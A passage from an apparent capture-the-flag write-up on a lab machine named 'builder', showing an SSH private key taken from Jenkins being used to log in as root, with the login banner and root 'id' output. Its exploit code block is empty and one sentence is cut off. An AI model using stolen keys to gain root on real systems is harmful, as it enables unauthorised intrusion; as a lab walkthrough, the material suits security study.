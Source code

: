```shell
```

> This works since Jenkis is using a ssh plugin where



Once the exploit retrieve the ssh key, we can ssh to the main target machine: 

```shell
jenkins@0f52c222a4cc:~$ ssh root@10.129.230.220 -i id_rsa 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Tue Oct 21 01:46:56 PM UTC 2025

  System load:              0.0
  Usage of /:               66.5% of 5.81GB
  Memory usage:             21%
  Swap usage:               0%
  Processes:                223
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.129.230.220
  IPv6 address for eth0:    dead:beef::250:56ff:fe94:977


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Oct 21 13:46:59 2025 from 172.17.0.2
root@builder:~# id
uid=0(root) gid=0(root) groups=0(root)
```
And we're now root in the main target machine. 




